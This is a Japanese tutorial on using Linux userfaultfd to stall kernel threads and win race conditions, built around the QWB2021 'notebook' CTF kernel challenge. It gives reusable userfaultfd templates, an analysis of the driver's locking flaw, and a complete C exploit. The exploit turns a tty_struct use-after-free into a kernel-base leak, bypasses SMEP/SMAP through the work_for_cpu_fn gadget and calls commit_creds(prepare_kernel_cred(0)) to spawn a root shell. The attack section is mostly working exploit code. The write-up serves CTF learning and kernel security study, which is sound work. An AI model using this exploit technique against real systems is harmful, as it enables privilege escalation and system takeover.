






# userfaultfd で競合状態を作り出す

## 概要

厳密に言えば、userfaultfd は攻略手法ではなく、**Linux のシステムコールの一つ**です。簡単に言うと、userfaultfd という仕組みによって、**ユーザが独自のページフォルトハンドラ(page fault handler)を使い、ページフォルト例外をユーザ空間で処理できます**。

次の図は、userfaultfd の全体の流れをよく表しています。



userfaultfd システムコールを使うには、まず userfaultfd を登録し、ioctl を通じてメモリ領域を監視します。同時に、ポーリング専用のスレッド `uffd monitor` も起動する必要があります。このスレッドは `poll()` 関数で、**ページフォルト例外が発生するまで**ポーリングを続けます。

- あるスレッドがこのメモリ領域でページフォルト例外を起こすと(たとえば、匿名ページに初めてアクセスしたとき)、そのスレッド(faulting スレッドと呼びます)はカーネルに入ってページフォルト例外を処理します。
- カーネルは `handle_userfault()` を呼び出して userfaultfd に処理を渡します。
- その後、faulting スレッドはブロック状態に入り、同時に `uffd_msg` を monitor スレッドに送って、処理が終わるのを待ちます。
- monitor スレッドは ioctl を通じてページフォルト例外を処理します。選べる操作は次のとおりです。
  - `UFFDIO_COPY`：ユーザが定義したデータを faulting page にコピーします。
  - `UFFDIO_ZEROPAGE` ：faulting page を 0 クリアします。
  - `UFFDIO_WAKE`：上の 2 つの操作の `UFFDIO_COPY_MODE_DONTWAKE` モードおよび `UFFDIO_ZEROPAGE_MODE_DONTWAKE` モードと組み合わせて、一括での埋め込みを実現するために使います。
- 処理が終わると、monitor スレッドがシグナルを送って faulting スレッドを起こし、処理を続けさせます。

以上が userfaultfd という仕組みの全体の流れです。この仕組みはもともと、仮想マシンやプロセスの移行などの用途のために設計されました。しかし、**この仕組みを使うと、プロセスの実行の順序を制御できるため、競合状態を悪用する際の成功率を大幅に高められます**。たとえば次のような操作があるとします。

```c
copy_from_user(kptr, user_buf, size);
```

関数に入った後、実際のコピーが始まる前にスレッドが中断されて CPU から降ろされ、別のスレッドが実行されて、kptr が指すメモリブロックの所有権を変更する(たとえばそのメモリブロックを kfree する)と、その後にコピーを実行したときに UAF を起こせます。もちろん、この可能性はかなり小さいものです。しかし、user_buf が mmap したメモリブロックで、それに userfaultfd を登録してあれば、コピー時にページフォルト例外が起こった後、このスレッドはまず登録しておいたハンドラ関数を実行します。ハンドラが終わるまでスレッドは一時停止したままで、終わってから後続の処理が実行されるため、競合の成功率が大きく上がります。

## 使い方

[Linux man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html) には、userfaultfd の基本的な使用テンプレートがすでに用意されています。少し修正するだけで、そのまま実戦に使えます。以下に、筆者が使っている、特定のメモリに userfaultfd monitor を登録するテンプレートを示します。

```c
void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        err_exit("userfaultfd");

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        err_exit("ioctl-UFFDIO_API");

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        err_exit("ioctl-UFFDIO_REGISTER");

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0)
        err_exit("pthread_create");
}

```

次の操作で、匿名の mmap メモリに userfaultfd を登録できます。

```c
register_userfaultfd(thread, addr, len, handler);
```

handler の書き方に注意が必要です。ここでは筆者が Linux man page をほぼそのまま写して少し手を加えたもので、個人の必要に応じてカスタマイズできます。

```c
static char *uffd_src_page = NULL; // 你要拷贝进去的数据
static long uffd_src_page_size = 0x1000;

static void *
fault_handler_thread(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) arg;

    for (;;) 
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        /*
         * [在这停顿.jpg]
         * 当 poll 返回时说明出现了缺页异常
         * 你可以在这里插入一些比如说 sleep() 一类的操作，
		 * 例如等待其他进程完成对象的重分配后再重新进行拷贝一类的，也可以直接睡死 ：）
         */

        if (nready == -1)
            err_exit("poll");

        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
            err_exit("EOF on userfaultfd!\n");

        if (nread == -1)
            err_exit("read");

        if (msg.event != UFFD_EVENT_PAGEFAULT)
            err_exit("Unexpected event on userfaultfd\n");

        uffdio_copy.src = (unsigned long) uffd_src_page;
        uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                              ~(uffd_src_page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            err_exit("ioctl-UFFDIO_COPY");
    }
}
```

## 例題：QWB2021-notebook

ここでは、強網杯 2021 の notebook という問題を例に、競合状態における userfaultfd の使い方を説明します。

### 分析

まず起動スクリプトを見ます。

```shell
#!/bin/sh
stty intr ^]
qemu-system-x86_64 \
    -m 64M \
    -kernel bzImage \
    -initrd rootfs.cpio \
    -append "loglevel=3 console=ttyS0 oops=panic panic=1 kaslr" \
    -nographic -net user -net nic -device e1000 \
    -smp cores=2,threads=2 -cpu kvm64,+smep,+smap \
    -monitor /dev/null 2>/dev/null -s
```

append で loglevel が 3 に設定されています。これを外すことをお勧めします。外すと、デバッグ時に判断しやすくなります(ドライバの printk の内容が見えるようになります)。

プログラムの流れは比較的単純で、シンボルも削除されていないため、ここでは解析しません。プログラムの主な脆弱性は、競合状態によって生じる UAF です。

まず読み書きロック(read-write lock)について説明します。その性質は次のとおりです。

* 書き込みロックが取られているとき、すべてのロック取得操作がブロックされます。
* 読み取りロックが取られているとき、書き込みロックの取得操作がブロックされます。

読み書きロックを適切に使えば、プログラムの性能を高めつつスレッドの同期を保てます。この問題のドライバプログラムは、noteedit と noteadd の操作で読み取りロックを取り、notedel の操作でのみ書き込みロックを取っています。それ以外の操作はロックで保護されていません。しかも、読み取りロックを取る 2 つの操作は、実際にはどちらも書き込み操作を行いますが、並行して実行できます。このため、競合状態の脆弱性が存在する可能性が高くなります。



これは noteedit 操作のコードの一部です。ここでの krealloc は newsize に何の制限も課していません。また、note ポインタがすぐには更新されず、更新の前に copy_from_user の操作が入っています。そのため、userfaultfd の操作で現在のスレッドを止めて note の更新を妨げることで、kfree された slab へのポインタを残しておけると考えられます。この方法の問題は、note の size が 0 に更新されてしまい、その後の read と write の操作でデータを読み書きできなくなることです。



ただし add 操作でも、size を更新する前に同様に copy_from_user の操作が入っているため、ここでもスレッドを止めて、size を 0x60 に変更できます。

したがって、次のことができます。

* 任意のサイズの slab を確保する。add 操作では size の最大が 0x60 に制限されていますが、edit で krealloc すれば任意のサイズの slab を作れます。
* 任意のサイズの slab に対して UAF を起こす。ただし、制御できるのは先頭の 0x60 バイトのデータだけです。

### 攻略

edit 関数で `copy_from_user()` が使われているため、userfaultfd が介入できる余地があります。次のようにできます。

- 特定のサイズの note を確保する。
- 新しい edit スレッドを立ち上げ、`krealloc(0)` でそれを解放する**と同時に、userfaultfd でそこに止める**。

**このとき notebook 配列内のオブジェクトはまだクリアされておらず、解放済みの元のオブジェクトのままです。あとは、それを別のカーネル構造体として確保し直せば、UAF が成立します**。

ここでは、最も古典的な `tty_struct` を使って攻略します。問題がヒープブロックの読み取り機能を提供しているため、`tty_struct` 内の `tty_operations` から、カーネルのベースアドレスを直接リークできます。これは通常、**グローバル変数** `ptm_unix98_ops` または `pty_unix98_ops ` に初期化されています。

kaslr が有効なカーネルでも、メモリ上のオフセットはメモリページ単位のままです。そのため、tty\_operations のアドレスの下位 16 進 3 桁を比較して、`ptm_unix98_ops` と `pty_unix98_ops ` のどちらなのかを判断できます。

問題がヒープブロックへの書き込み機能を提供しているため、`tty_struct->tty_operations` を書き換えてから tty を操作する(たとえば read、write、ioctl...これらは関数テーブル内の対応する関数ポインタを呼び出します)ことで、カーネルの実行フローをハイジャックできます。さらに `notegift()` は notebook に格納されているオブジェクトのアドレスをそのまま教えてくれるので、`fake tty_operations` を note の中に配置できます。

ただし、従来のような長いスタックピボットの ROP chain を組む方法と比べて、長亭(Chaitin)は WP の中で非常に面白い trick を挙げています。[原文へのリンク](https://zhuanlan.zhihu.com/p/385645268)。ここで原文を引用します。

> rip を制御できたら、次のステップは SMEP と SMAP のバイパスです。ここでは、tty オブジェクトを完全に制御できる場合に非常に使いやすい trick を紹介します。ROP はまったく不要で、非常に簡単で、しかも非常に安定しています(私たちの exploit は、攻略に成功した後もプログラムを正常終了でき、シャットダウンしてさえ kernel panic が起きません)。
>
> カーネルには次のような関数があります。
>
> 
>
> コンパイル後は、おおよそ次のようになります。
>
> 
>
> この関数は workqueue 機構の実装の中にあり、マルチコア対応が有効なカーネル(CONFIG_SMP)であれば必ずこの関数のコードが含まれています。この関数は非常に使い勝手が良いことに気づくはずです。第 1 引数が指すメモリを制御できれば、任意の関数を任意の引数 1 つで呼び出し、戻り値を第 1 引数が指すメモリに書き戻す機能が得られます。しかもこの "gadget" はきれいに return でき、実行中に SMAP と SMEP のことを一切気にする必要がありません。カーネル内の多くの read / write / ioctl などの実装は、第 1 引数がちょうど対応するオブジェクト自身なので、こうした場面に非常に適しています。権限昇格のために必要なことは commit_creds(prepare_kernel_cred(0)) だけなので、上記の関数呼び出しプリミティブを 2 回使えば完全に実現できます。(SELinux の無効化などが必要な場合は、任意アドレスに 0 を書き込む gadget をもう一つ探せばよく、簡単に見つかります)

このプリミティブを使えば、任意の関数を比較的簡単に実行できます。

攻略の過程では、次の 2 点に注意が必要です。

- 問題の環境には複数の CPU core があるため、`sched_setaffinity()` でプロセスを指定したコアに固定し、カーネルオブジェクトの確保を安定させる必要があります。そうすれば、ヒープスプレーを行う必要はありません。
- `tty_struct` の構造も私たちによって破壊されているため、権限昇格が完了した後で、その内容を元の状態に戻すべきです。

### exp

最終的な、安定して権限昇格を行う exp は次のとおりです。

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <stdint.h>
#include <poll.h>

/**
 * Kernel Pwn Infrastructure
**/

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Kernel structure
**/

struct file;
struct file_operations;
struct tty_struct;
struct tty_driver;
struct serial_icounter_struct;
struct ktermios;
struct termiox;
struct seq_file;

struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
            struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
            unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
                struct serial_icounter_struct *icount);
    void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(struct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    const struct file_operations *proc_fops;
};

/**
 * kernel-relaetd numerical value
**/

#define TTY_STRUCT_SIZE 0x2e0

#define PTM_UNIX98_OPS 0xffffffff81e8e440
#define PTY_UNIX98_OPS 0xffffffff81e8e320
#define COMMIT_CREDS 0xffffffff810a9b40
#define PREPARE_KERNEL_CRED 0xffffffff810a9ef0
#define WORK_FOR_CPU_FN 0xffffffff8109eb90

/**
 * Syscall userfaultfd() operator
**/
#define UFFD_API ((uint64_t)0xAA)
#define _UFFDIO_REGISTER		(0x00)
#define _UFFDIO_COPY			(0x03)
#define _UFFDIO_API			(0x3F)

/* userfaultfd ioctl ids */
#define UFFDIO 0xAA
#define UFFDIO_API		_IOWR(UFFDIO, _UFFDIO_API,	\
				      struct uffdio_api)
#define UFFDIO_REGISTER		_IOWR(UFFDIO, _UFFDIO_REGISTER, \
				      struct uffdio_register)
#define UFFDIO_COPY		_IOWR(UFFDIO, _UFFDIO_COPY,	\
				      struct uffdio_copy)

/* read() structure */
struct uffd_msg {
	uint8_t	event;

	uint8_t	reserved1;
	uint16_t	reserved2;
	uint32_t	reserved3;

	union {
		struct {
			uint64_t	flags;
			uint64_t	address;
			union {
				uint32_t ptid;
			} feat;
		} pagefault;

		struct {
			uint32_t	ufd;
		} fork;

		struct {
			uint64_t	from;
			uint64_t	to;
			uint64_t	len;
		} remap;

		struct {
			uint64_t	start;
			uint64_t	end;
		} remove;

		struct {
			/* unused reserved fields */
			uint64_t	reserved1;
			uint64_t	reserved2;
			uint64_t	reserved3;
		} reserved;
	} arg;
} __attribute__((packed));

#define UFFD_EVENT_PAGEFAULT	0x12

struct uffdio_api {
    uint64_t api;
    uint64_t features;
    uint64_t ioctls;
};

struct uffdio_range {
    uint64_t start;
    uint64_t len;
};

struct uffdio_register {
	struct uffdio_range range;
#define UFFDIO_REGISTER_MODE_MISSING	((uint64_t)1<<0)
#define UFFDIO_REGISTER_MODE_WP		((uint64_t)1<<1)
    uint64_t mode;
    uint64_t ioctls;
};


struct uffdio_copy {
	uint64_t dst;
	uint64_t src;
	uint64_t len;
#define UFFDIO_COPY_MODE_DONTWAKE		((uint64_t)1<<0)
	uint64_t mode;
	int64_t copy;
};

char temp_page_for_stuck[0x1000];

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1) {
        err_exit("userfaultfd");
    }

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) {
        err_exit("ioctl-UFFDIO_API");
    }

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) {
        err_exit("ioctl-UFFDIO_REGISTER");
    }

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0) {
        err_exit("pthread_create");
    }
}

void *uffd_handler_for_stucking_thread(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) args;

    for (;;) {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1) {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

        /* just stuck there is okay... */
        sleep(100000000);

        if (nread == 0) {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1) {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT) {
            err_exit("Unexpected event on userfaultfd\n");
        }

        uffdio_copy.src = (unsigned long long) temp_page_for_stuck;
        uffdio_copy.dst = (unsigned long long) msg.arg.pagefault.address &
                                                    ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1) {
            err_exit("ioctl-UFFDIO_COPY");
        }

        return NULL;
    }
}

void register_userfaultfd_for_thread_stucking(pthread_t *monitor_thread, 
                                          void *buf, unsigned long len)
{
    register_userfaultfd(monitor_thread, buf, len, 
                         uffd_handler_for_stucking_thread);
}

/**
 * Challenge interactor
**/

#define NOTE_NUM 0x10

struct note {
    size_t idx;
    size_t size;
    char * buf;
};

struct knotebook {
    void *ptr;
    size_t size;
};

int note_fd;
sem_t evil_add_sem, evil_edit_sem;
char *uffd_buf;
char temp_page[0x1000] = { "arttnba3" };

void note_add(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x100, &note);
}

void note_del(size_t idx)
{
    struct note note = {
        .idx = idx,
    };

    ioctl(note_fd, 0x200, &note);
}

void note_edit(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x300, &note);
}

void note_gift(void *buf)
{
    struct note note = {
        .buf = buf,
    };

    ioctl(note_fd, 100, &note);
}

ssize_t note_read(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
**/

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

void exploit()
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    note_add(0, 0x10, "arttnba3rat3bant");
    note_edit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
    pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    note_read(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        err_exit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = (tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                    ? (tty_ops - PTY_UNIX98_OPS)
                    : tty_ops - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = (void*) (kernel_offset + WORK_FOR_CPU_FN);
    note_add(1, 0x50, temp_page);
    note_edit(1, sizeof(struct tty_operations), temp_page);
    note_wriite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    note_gift(&kernel_notebook);
    tty_struct_addr = (size_t) kernel_notebook[0].ptr;
    fake_tty_ops_addr = (size_t) kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();
}

int main(int argc, char **argv, char **envp)
{
    exploit();
    return 0;
}

```

## 新しいバージョンのカーネルによる、race condition での userfaultfd 悪用への対抗

「万能の銀の弾丸はない」と言われるとおり、比較的新しいバージョンのカーネルでは、userfaultfd システムコールをうまく起動できないことに気づく人もいるかもしれません。



これは、比較的新しいバージョンのカーネルで、変数 `sysctl_unprivileged_userfaultfd` の値が変更されたためです。

> linux-5.11 のソース `fs/userfaultfd.c` より：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```

> linux-5.4 のソース `fs/userfaultfd.c` より：

```c
int sysctl_unprivileged_userfaultfd __read_mostly = 1;
//...
```

以前のバージョンでは、変数 `sysctl_unprivileged_userfaultfd` は `1` に初期化されていました。一方、比較的新しいバージョンのカーネルでは、この変数に初期値が与えられておらず、**コンパイラはそれを bss セクションに置き、デフォルト値は 0 になります**。

